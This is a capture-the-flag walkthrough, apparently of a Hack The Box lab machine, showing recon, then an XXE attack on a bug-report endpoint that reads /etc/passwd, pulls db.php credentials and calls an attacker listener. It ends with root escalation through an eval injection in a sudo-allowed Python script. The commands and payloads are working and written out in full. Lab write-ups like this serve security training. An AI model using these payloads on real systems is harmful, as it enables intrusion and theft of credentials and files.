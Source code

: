 > Author: **[ejedev][author-profile]**

## Discovery

Nmap and Gobuster return:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
```

```bash
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/db.php               (Status: 200) [Size: 0]
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/index.php            (Status: 200) [Size: 25169]
/portal.php           (Status: 200) [Size: 125]
/server-status        (Status: 403) [Size: 277]
```

There's a README in the resources:

```
Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions
```

A business website is served on port 80. Its portal redirects to `log_submit.php`,
a tool for employees to submit bugs.

Upon submission, Burpsuite captures a POST request to `tracker_diRbPr00f314.php`,
with base64 encoded xml data:

```javascript
// "<?xml  version=\"1.0\" encoding=\"ISO-8859-1\"?>\n\t\t<bugreport>\n\t\t<title>heyhey</title>\n\t\t<cwe>inject some clever code here</cwe>\n\t\t<cvss>-1</cvss>\n\t\t<reward>');show tables;#</reward>\n\t\t</bugreport>"
atob("PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5oZXloZXk8L3RpdGxlPgoJCTxjd2U+aW5qZWN0IHNvbWUgY2xldmVyIGNvZGUgaGVyZTwvY3dlPgoJCTxjdnNzPi0xPC9jdnNzPgoJCTxyZXdhcmQ+Jyk7c2hvdyB0YWJsZXM7IzwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg==");
```

This might be exploitable!

## Checking for XXE

Let's export this previous request as a curl command (in Burpsuite) to tweak it:

```bash
curl -i -s -k -X $'POST' --compressed \
    -H $'Host: 10.10.11.100' \
    -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
    -H $'Accept-Encoding: gzip, deflate' \
    --data-urlencode $'data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5oZXloZXk8L3RpdGxlPgoJCTxjd2U+aW5qZWN0IHNvbWUgY2xldmVyIGNvZGUgaGVyZTwvY3dlPgoJCTxjdnNzPi0xPC9jdnNzPgoJCTxyZXdhcmQ+Jyk7c2hvdyB0YWJsZXM7IzwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg==' \
    $'http://10.10.11.100/tracker_diRbPr00f314.php'
```

> Don't forget the --compressed flag, otherwise the response body will not appear.

> Also, switching the `--data-binary` option to `--data-urlencode` allows to paste
> base64 data directly, and not worry about special characters like "=".

Then, test whether external entities are enabled with:

```bash
echo $'<?xml  version=\"1.0\" encoding=\"ISO-8859-1\"?>\n\t\t<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://10.10.16.30:9876"> %xxe; ]>\n\t\t<bugreport>\n\t\t<title>heyhey</title>\n\t\t<cwe>inject some clever code here</cwe>\n\t\t<cvss>-1</cvss>\n\t\t<reward>a XXE?</reward>\n\t\t</bugreport>' | base64 -w 0
```

Netcat catches a request on port 9876: looks like we have a XXE on our hands!

## Scripting the attack

Let's put together a script to automate the testing:

```bash
HEADER=$'<?xml  version=\"1.0\" encoding=\"ISO-8859-1\"?>'
REPORT=$'<bugreport><title>user listing</title><cwe>xxe</cwe><cvss>pwned</cvss><reward>&flag;</reward></bugreport>'
PAYLOAD=$'<!DOCTYPE foo [<!ENTITY flag SYSTEM \"/etc/passwd\"> ]>'
DATA=$(echo "${HEADER}${PAYLOAD}${REPORT}" | base64 -w 0)

curl -i -s -k -X $'POST' --compressed \
    -H $'Host: 10.10.11.100' \
    -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
    -H $'Accept-Encoding: gzip, deflate' \
    --data-urlencode "data=${DATA}" \
    $'http://10.10.11.100/tracker_diRbPr00f314.php'
```

From the response, the target has two users: root and development.

## Breaking-in

The XXE can be used to download files; the `db.php` seen in recon is the most promising:

```bash
PAYLOAD=$'<!DOCTYPE foo [<!ENTITY flag SYSTEM \"php://filter/convert.base64-encode/resource=db.php\"> ]>'
```

Decoding it gives us credentials:

```php
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
```

According to the previous port scanning, there's no mysql server exposed:

```bash
# ERROR 2002 (HY000): Can't connect to server on '10.10.11.100' (115)
mysql -D'bounty' -u'admin' -p'm19RoAU0hP41A1sTsq6K' -h 10.10.11.100 -e'show tables;'
```

But it works as ssh credentials for the user "development"!

## Escalation

The user "development" can elevate his privileges thanks to sudo and run
`/usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py` as root.

The script parses a markdown ticket and evaluates its "code" section:

```python
validationNumber = eval(x.replace("**", ""))
```

Following the parsing rules, we create a ticket to require the root flag:

```markdown
# Skytrain Inc
## Ticket to root the box
__Ticket Code:__
**102+__import__('os').system('cat /root/root.txt')**
## Issued: 2021/08/19
# End Ticket
```

[author-profile]: https://app.hackthebox.eu/users/280547
